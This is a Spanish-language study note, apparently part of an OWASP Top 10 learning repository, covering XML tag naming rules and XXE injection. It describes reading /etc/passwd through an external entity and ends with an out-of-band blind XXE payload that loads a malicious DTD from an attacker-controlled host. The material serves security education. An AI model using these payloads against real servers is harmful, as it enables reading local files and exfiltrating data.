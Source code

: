 ## Reglas para etiquetas

En XML, el nombre de las etiquetas, también conocidas como elementos, puede ser cualquier cosa siempre y cuando siga ciertas reglas de nomenclatura. Estas reglas son:

1. El nombre de la etiqueta debe comenzar con una letra o un carácter de subrayado (_).
2. El resto del nombre de la etiqueta puede contener letras, dígitos, guiones medios (-), puntos (.) y dos puntos (:).
3. El nombre de la etiqueta no puede contener espacios en blanco ni caracteres especiales como signos de puntuación o símbolos.

Al seguir estas reglas, puedes crear nombres de etiquetas personalizados y descriptivos según el contenido que desees representar en tu documento XML.

## Ataque XXE

### Identificar vulnerabilidad a XXE

Ahora, sabiendo que el servidor lee el campo “email” de la estructura XML, se modificará la petición para crear una entidad llamada “xxe” la cual se hará referencia en el campo “email”:

![Untitled](../assets/OWASP-TOP-10/XML External Entity Injection (XXE)/Untitled 7.png)

Se envió la petición y el servidor respondió correctamente con el contenido de la entidad (”ejemplo”) y es aquí en donde entra el XXE.

### XXE: Apuntar a un archivo interno de la máquina víctima

Se hace uso de SYSTEM para apuntar al archivo interno de la máquina /etc/passwd utilizando el wrapper “file://” 

![Untitled](../assets/OWASP-TOP-10/XML External Entity Injection (XXE)/Untitled 8.png)

## Ataque XXE OOB Blind: External DTD (Out of Band Interaction)

Hay veces en las que al intentar listar archivos internos con entidades, el output no se muestre en la respuesta, por lo que se puede intentar hacer el ataque a “ciegas” cargando un archivo externo “.dtd” malicioso de la máquina del atacante

![Untitled](../assets/OWASP-TOP-10/XML External Entity Injection (XXE)/Untitled 9.png)

![Untitled](../assets/OWASP-TOP-10/XML External Entity Injection (XXE)/Untitled 10.png)

```bash
# External DTD
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM 
"http://<IPAtacante>/malicious.dtd"> %xxe;]>

# Estructura XML...
```

